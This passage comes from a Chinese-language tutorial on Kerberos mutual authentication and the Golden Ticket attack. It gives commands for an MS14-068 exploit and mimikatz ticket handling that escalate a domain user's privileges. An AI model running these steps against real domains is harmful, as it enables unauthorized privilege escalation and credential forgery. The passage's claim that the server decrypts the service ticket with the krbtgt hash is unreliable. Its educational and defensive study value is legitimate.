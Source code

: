 **Server验证Client：**
 Client通过与TGS交互获得访问Server的Session Key,然后为了证明自己就是ST(Service Ticket)的真正所有者,会将Authenticator和时间戳提取出来,并使用Session Key进行加密。最后将这个被加密过的Authenticator3 和ST作为请求数据包发送给Server。此外还包含一个Flag用于表示Client是否需要进行双向验证。

Server接收到Request之后,首先通过自己的Master Key(krbtgt的密码hash处理)解密ST,从而获得Session Key。然后通过解密出来的Session Key再去解密Authenticator3 ,进而验证对方的身份。如果验证成功,且时间戳不长于5min,就让 Client 访问对应的资源,否则就会直接拒绝对方的请求。

**双向认证：**
 到目前为止，服务端已经完成了对客户端的验证，但是，整个认证过程还没有结束。接下来就是Client对Server进行验证以确保Client所访问的不是一个钓鱼服务.

**Client验证Server：**
 Server需要将Authenticator3中解密出来的Timestamp再次用Session Key进行加密,并发送给Client。Client再用缓存Session Key进行解密,如果Timestamp和之前的内容完全一样,则可以证明此时的Server是它想访问的Server。

# 票据传递攻击

这里介绍域内常用的两种攻击方式：黄金票据Golden ticket、白银票据SILVER TICKE

## 金票Golden ticket

### 原理

在Kerberos认证中,Client通过AS(身份认证服务)认证后,AS会给Client一个
 Logon Session Key和TGT,而Logon Session Key并不会保存在KDC中，krbtgt的NTLM Hash又是固定的,所以只要得到krbtgt的NTLM Hash，就可以伪造TGT和Logon Session Key来进入下一步Client与TGS的交互。而已有了金票后,就跳过AS验证,不用验证账户和密码,所以也不担心域管密码修改。

### 特点

不需要与AS进行交互，需要用户krbtgt的Hash

### 具体操作介绍

#### 一、伪造凭据，提升域内普通用户的权限

现在以一个本地administrator用户登录域内的一个主机中。

**whoami /user** #域内主机查找当前用户SID

**dir \\DC\C$** #查看访问DC的权限  

![](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202201161616257.png)
**ms14-068.exe -u 域成员名@域名 -s 域成员sid -d 域控制器地址 -p 域成员密码** #域机器是可以和域控制器互通则会创建.ccache文件

 ![](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202201161615185.png)

**mimikatz # kerberos::purge**     //清空当前机器中所有凭证，如果有域成员凭证会影响凭证伪造

![](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202201161633457.png)

**mimikatz # kerberos::list**     //查看当前机器凭证

![image-20220116163423710](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202201161634605.png)
